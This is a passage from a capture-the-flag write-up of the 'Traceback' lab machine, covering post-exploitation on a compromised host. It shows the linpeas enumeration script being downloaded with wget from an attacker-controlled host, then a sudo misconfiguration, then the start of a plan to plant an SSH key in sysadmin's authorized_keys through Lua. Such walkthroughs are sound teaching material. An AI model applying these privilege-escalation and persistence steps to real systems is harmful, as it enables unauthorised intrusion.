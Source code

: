 Connecting to 10.10.14.117:8000... connected.

HTTP request sent, awaiting response... 200 OK

Length: 299897 \(293K\) \[text/x-sh\]

Saving to: 'linpeas.sh'

linpeas.sh 100%\[===================&gt;\] 292.87K 237KB/s in 1.2s

2020-12-27 20:31:07 \(237 KB/s\) - 'linpeas.sh' saved \[299897/299897\]

webadmin@traceback:/dev/shm$ chmod a+x linpeas.sh

webadmin@traceback:/dev/shm$ ./linpeas.sh -s &gt; linpeas.out

Going through the output, the first we find is further evidence that webadmin can run sudo as indicated by the bash history we found earlier. In the LinPEAS output, we see that the output from sudo -l which lists that webadmin has the ability to run the program luvit in /home/sysadmin/luvit/ as user sysadmin:

\[+\] Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d

\[i\] https://book.hacktricks.xyz/linux-unix/privilege-escalation\#sudo-and-suid

Matching Defaults entries for webadmin on traceback:

 env\_reset, mail\_badpass, secure\_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:

 \(sysadmin\) NOPASSWD: /home/sysadmin/luvit

Right now, we could continue our enumeration but we seem to have a path to getting access to the sysadmin user and we are going to explore that first. Based on the note, we think that the luvit program will execute Lua script. Lua is the scripting language that nmap uses for any external functionality that it can run. We can use the program running as sysadmin to write an SSH key to the authorized\_keys file in the home directory of sysadmin. The first thing to do is to generate an SSH key using ssh-keygen:

┌─\[rin@parrot\]─\[~/boxes/Traceback\] \[34/40\]

└──╼ $ssh-keygen -f sysadmin.key

Generating public/private rsa key pair.

Enter passphrase \(empty for no passphrase\):

Enter same passphrase again:

Your identification has been saved in sysadmin.key

Your public key has been saved in sysadmin.key.pub

The key fingerprint is:

SHA256:Nc30lm7tE6QDKmKMUuVSwK1FKJXeLlA0jZ8lUdFCfnk rin@parrot

…

Looking at the documentation for Lua script, writing to a file is fairly simple and we can adapt the code to append the public key to the authorized\_keys file:
